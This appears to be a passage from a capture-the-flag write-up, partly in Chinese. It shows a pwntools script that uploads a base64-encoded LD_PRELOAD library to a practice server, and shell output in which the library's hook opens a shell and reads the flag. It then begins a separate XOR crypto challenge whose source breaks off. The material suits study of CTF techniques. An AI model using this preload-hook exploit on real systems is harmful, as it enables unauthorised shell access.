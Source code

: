 ```python!
from base64 import b64encode
from pwn import *

ld_file = open('./libmyhook.so', 'rb').read()
# r = process(['python', './main.py'])
r = remote('edu-ctf.zoolab.org', 10002)

print(r.recvline())
raw_input()
r.sendline(b64encode(ld_file))
# print(b64encode(ld_file))

r.interactive()
```

```bash!
$ gcc -fPIC -shared -o libmyhook.so exp-hook.c -ldl
$ LD_PRELOAD=./libmyhook.so ./chall    # To make sure it's working
$ python exp.py
[+] Opening connection to edu-ctf.zoolab.org on port 10002: Done
b'Give me your share object:\n'

[*] Switching to interactive mode
$ ls
Makefile
chall
chall.c
flag.txt
main.py
run.sh
$ cat flag.txt
FLAG{B4by_Ld_Pr3L0aD_L1bR1rY_:)}
```

我是直接參考[^libc-hook-zhihu]的教學，非常淺顯易懂，而且還有給sample code，做的事情簡單來說就和上面提到的一樣，當它call sleep時，就會直接執行execve開shell給我，另外這篇[^another-libc-hook-essay]的教學冶獎的很好


## Extreme Xorrrrr
* Flag: `flag{xor_ThEN_><OR_1qUal_ZEr0}`
### Description
Easy crypto problem with simple tricks.

Flag Format: FLAG{...}
### Source Code
:::spoiler Source Code
```python=
from secret import flag
from Crypto.Util.number import bytes_to_long, getPrime

def xorrrrr(nums):
    n = len(nums)
    result = [0] * n
    for i in range(1, n):
        result = [ result[j] ^ nums[(j+i) % n] for j in range(n)]
    return result

secret = bytes_to_long(flag)
mods = [ getPrime(32) for i in range(20)]
muls = [ getPrime(20) for i in range(20)]

hint = [secret * muls[i] % mods[i] for i in range(20)]

```